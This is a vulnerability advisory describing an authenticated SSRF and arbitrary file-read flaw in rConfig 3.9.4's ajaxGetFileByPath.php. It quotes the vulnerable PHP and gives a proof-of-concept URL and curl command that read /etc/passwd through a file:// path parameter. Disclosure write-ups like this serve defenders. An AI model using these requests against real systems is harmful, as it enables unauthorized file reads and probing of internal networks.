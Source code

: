 # SSRF vulnerability in  `www/lib/ajaxHandlers/ajaxGetFileByPath.php` File (rConfig 3.9.4 version)

## 0x01 Affected version

vendor: http://www.rconfig.com/

version: 3.9.4

php version: 7.x

## 0x02 Vulnerability description

A Server-Side Request Forgery (SSRF) in file  `www/lib/ajaxHandlers/ajaxGetFileByPath.php` of rConfig 3.9.4 allows remote attackers to force the application to make arbitrary requests via injection of arbitrary URLs into the `path` parameter. We should note that the vulnerability requires authentication to trigger.



The vulnerable code is located in the file  `www/lib/ajaxHandlers/ajaxGetFileByPath.php`. Because it does not perform sufficient checksumming on the `path` parameter, the taint is introduced from the `$filepath` variable into the tainted function `file_exists`, and after the `file_exists` function is executed it sends a request to the URL specified by the `path` parameter, eventually leading to an SSRF vulnerability.



Function call stack information related to the SSRF vulnerability.

```PHP
<?php
if (!$session->logged_in) {
    echo 'Don\'t bother trying to hack me!!!!!<br /> This hack attempt has been logged';
    $log->Warn("Security Issue: Some tried to access this file directly from IP: " . $_SERVER['REMOTE_ADDR'] . " & Username: " . $session->username . " (File: " . $_SERVER['PHP_SELF'] . ")");
    // need to add authentication to this script
    header("Location: " . $config_basedir . "login.php");
} else {
//  used to retrive contents of file specified in JS in devicemgmt.php
    $filepath = $_GET['path'];
    if (file_exists($filepath)) {
        $fileArr = file($filepath);
    } else {
        $fileArr = 'Failed';
    }
    echo json_encode($fileArr);
}
```

Because the `path` parameter is unrestricted, it is also possible to use the server side to send requests, such as probing intranet web services. The corresponding PoC is as follows:

```
http://172.16.119.147/rconfig/www/lib/ajaxHandlers/ajaxGetFileByPath.php?path=file://localhost/etc/passwd
```



This vulnerability can lead to arbitrary file reads, for example if we use the `file://`protocol to read the `/etc/passwd` file



![image-20230721200712878](./assets/image-20230721200712878.png)



You can also use the following curl command to verify the vulnerability. (Note that you need to update the token information for authentication.)

```
curl -i http://172.16.119.147/rconfig/www/lib/ajaxHandlers/ajaxGetFileByPath.php?path=file://localhost/etc/passwd
```



## 0x03 Acknowledgement

z3


